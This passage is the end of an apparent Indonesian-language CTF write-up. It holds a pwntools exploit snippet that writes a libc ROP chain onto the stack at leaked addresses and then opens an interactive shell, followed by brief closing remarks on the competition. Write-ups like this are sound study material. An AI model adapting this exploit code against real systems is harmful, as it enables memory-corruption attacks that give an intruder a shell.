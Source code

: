 ```py
adder((libc_base + 0x00000000000286e7) & 0xffffffff, stack_leak + 0x1d8,aaa=True)
adder((libc_base + 0x00000000000286e7) >> 32, stack_leak + 0x1dc,aaa=True)
adder((libc_base + 0x0000000000027b72+1) & 0xffffffff, stack_leak + 0x1f8,aaa=True)
adder((libc_base + 0x0000000000027b72+1) >> 32, stack_leak + 0x1fc,aaa=True)
adder((libc_base + 0x56410) & 0xffffffff, stack_leak + 0x200,aaa=True)
adder((libc_base + 0x56410) >> 32, stack_leak + 0x204,aaa=True)


pause()
p.sendlineafter("(Y/N)", 'N')


p.interactive()
p.close()
```

Saya yang pertama solve soal ini pada saat lomba btw :)


### Closing Statement
Ya 2020 merupakan bencana tapi CTF-nya lumayan seru. Semua 2021 lebih baik lagi :D
